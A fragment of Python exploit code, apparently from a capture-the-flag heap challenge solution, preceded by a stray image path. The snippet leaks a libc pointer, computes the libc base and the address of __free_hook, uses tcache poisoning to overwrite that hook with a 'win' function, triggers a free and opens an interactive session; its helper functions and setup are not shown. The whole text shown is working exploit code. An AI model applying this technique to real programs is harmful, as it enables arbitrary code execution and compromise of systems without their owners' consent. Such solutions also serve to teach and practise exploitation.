 ```python
    bk = u64(r[0x8:].ljust(8, b"\x00"))
    print(hex(bk))

    libc_base = bk - arena_libc - 0x60

    print(hex(libc_base))
    free_hook_addr = libc_base + libc.symbols["__free_hook"]

    # tcache poisoning
    size = 0x78
    write(s, size, p64(free_hook_addr))
    write(s, size)
    write(s, size, p64(win))

    delete(s)

    s.interactive()

```